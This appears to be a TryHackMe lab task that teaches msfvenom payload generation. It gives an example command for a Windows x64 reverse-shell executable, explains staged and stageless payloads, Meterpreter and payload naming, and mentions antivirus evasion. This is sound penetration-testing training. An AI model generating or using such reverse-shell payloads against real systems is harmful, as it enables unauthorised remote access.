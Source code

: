 Msfvenom: the one-stop-shop for all things payload related.

Part of the Metasploit framework, msfvenom is used to generate code for primarily reverse and bind shells. It is used extensively in lower-level exploit development to generate hexadecimal shellcode when developing something like a Buffer Overflow exploit; however, it can also be used to generate payloads in various formats (e.g. `.exe`, `.aspx`, `.war`, `.py`). It's this latter function that we will be making use of in this room. There is more to teach about msfvenom than could ever be fit into a single room, let alone a single task, so the following information will be a brief introduction to the concepts that will prove useful for this room.  

The standard syntax for msfvenom is as follows:

`msfvenom -p <PAYLOAD> <OPTIONS>`  

For example, to generate a Windows x64 Reverse Shell in an exe format, we could use:

`msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>`  

![](https://i.imgur.com/JkWeFLq.png)  

Here we are using a payload and four options:

- **-f** <format>

- Specifies the output format. In this case that is an executable (exe)

- **-o** <file>

- The output location and filename for the generated payload.

- **LHOST=**<IP>

- Specifies the IP to connect back to. When using TryHackMe, this will be your [tun0 IP address](http://10.10.10.10/). If you cannot load the link then you are not [connected to the VPN](https://tryhackme.com/room/welcome).

- **LPORT=**<port>

- The port on the local machine to connect back to. This can be anything between 0 and 65535 that isn't already in use; however, ports below 1024 are restricted and require a listener running with root privileges.  
    

---

_Staged vs Stageless_  

Before we go any further, there are another two concepts which must be introduced: _**staged**_ reverse shell payloads and _**stageless**_ reverse shell payloads.

- _**Staged**_ payloads are sent in two parts. The first part is called the _stager_. This is a piece of code which is executed directly on the server itself. It connects back to a waiting listener, but doesn't actually contain any reverse shell code by itself. Instead it connects to the listener and uses the connection to load the real payload, executing it directly and preventing it from touching the disk where it could be caught by traditional anti-virus solutions. Thus the payload is split into two parts -- a small initial stager, then the bulkier reverse shell code which is downloaded when the stager is activated. Staged payloads require a special listener -- usually the Metasploit multi/handler, which will be covered in the next task.  
    
- _**Stageless**_ payloads are more common -- these are what we've been using up until now. They are entirely self-contained in that there is one piece of code which, when executed, sends a shell back immediately to the waiting listener.

Stageless payloads tend to be easier to use and catch; however, they are also bulkier, and are easier for an antivirus or intrusion detection program to discover and remove. Staged payloads are harder to use, but the initial stager is a lot shorter, and is sometimes missed by less-effective antivirus software. Modern day antivirus solutions will also make use of the Anti-Malware Scan Interface (AMSI) to detect the payload as it is loaded into memory by the stager, making staged payloads less effective than they would once have been in this area.  

---

_Meterpreter_  

On the subject of Metasploit, another important thing to discuss is a _Meterpreter_ shell. Meterpreter shells are Metasploit's own brand of fully-featured shell. They are completely stable, making them a very good thing when working with Windows targets. They also have a lot of inbuilt functionality of their own, such as file uploads and downloads. If we want to use any of Metasploit's post-exploitation tools then we need to use a meterpreter shell, however, that is a topic for another time. The downside to meterpreter shells is that they _must_ be caught in Metasploit.  

---

_Payload Naming Conventions_

When working with msfvenom, it's important to understand how the naming system works. The basic convention is as follows:

`<OS>/<arch>/<payload>`  
  
For example:

`linux/x86/shell_reverse_tcp`  

This would generate a stageless reverse shell for an x86 Linux target.

The exception to this convention is Windows 32bit targets. For these, the arch is not specified. e.g.:

`windows/shell_reverse_tcp   `  

For a 64bit Windows target, the arch would be specified as normal (x64).

Let's break the payload section down a little further.

In the above examples the payload used was `shell_reverse_tcp`. This indicates that it was a _stageless_ payload. How? Stageless payloads are denoted with underscores (`_`). The staged equivalent to this payload would be:

`shell/reverse_tcp`  

As staged payloads are denoted with another forward slash (`/`).

This rule also applies to Meterpreter payloads. A Windows 64bit staged Meterpreter payload would look like this:

`windows/x64/meterpreter/reverse_tcp`  

A Linux 32bit stageless Meterpreter payload would look like this:

`linux/x86/meterpreter_reverse_tcp`  

---

Aside from the `msfconsole` man page, the other important thing to note when working with msfvenom is:  

`msfvenom --list payloads`  

This can be used to list all available payloads, which can then be piped into `grep` to search for a specific set of payloads. For example:

![](https://i.imgur.com/iFO6ydX.png)

This gives us a full set of Linux meterpreter payloads for 32bit targets.